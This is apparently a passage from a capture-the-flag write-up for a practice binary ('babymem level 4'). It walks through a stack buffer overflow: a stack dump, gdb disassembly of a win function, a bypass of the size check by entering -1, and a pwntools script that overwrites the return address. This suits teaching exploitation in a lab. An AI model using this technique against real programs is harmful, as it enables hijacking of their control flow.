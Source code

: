 ```
            | 0x00007ffd17398438 (rsp+0x0078) | f0 83 39 17 fd 7f 00 00 | 0x00007ffd173983f0 |
rbp ------> | 0x00007ffd17398440 (rsp+0x0080) | 70 94 39 17 fd 7f 00 00 | 0x00007ffd17399470 | <------ saved ebp of previous frame
            | 0x00007ffd17398448 (rsp+0x0088) | 87 2a 40 00 00 00 00 00 | 0x0000000000402a87 | <------ return address
            +---------------------------------+-------------------------+--------------------+
```
{% endcode %}

* Again, we have to overwrite the return address in order to divert control flow.

```
Buffer:                           Random bytes:                     Return address:

00 00 00 00 00 00 00 00                                00           87 2a 40 00 00 00 00 00
00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00
00 00 00 00 00 00 00 00           f0 83 39 17 fd 7f 00 00
00 00 00 00 00 00 00 00           70 94 39 17 fd 7f 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
```

* Let's find the address of the `win` function.

{% code fullWidth="false" %}
```
(gdb) disassemble win

; -- snip --
Dump of assembler code for function win:
   0x00000000004022cb <+0>:     endbr64 
; -- snip --
```
{% endcode %}

* The program does not want us to overflow the buffer, so it tries to ensure that the payload size we set is lower than the buffer size.
* However we can use the concept of [two's compliment](https://en.wikipedia.org/wiki/Two's\_complement) to our advantage.
* The two's-compliment of `-1` is `0xffffffff`. If we enter the payload size to be `-1`, the program will interpret it as an unsigned `4294967295` instead of a signed `-1`.
* And thus, we can pass the check.
* Let's craft our payload:

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x00000000004022cb)

p = process('/challenge/babymem_level4.0')
p.recvuntil('size:')
p.sendline('-1')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```
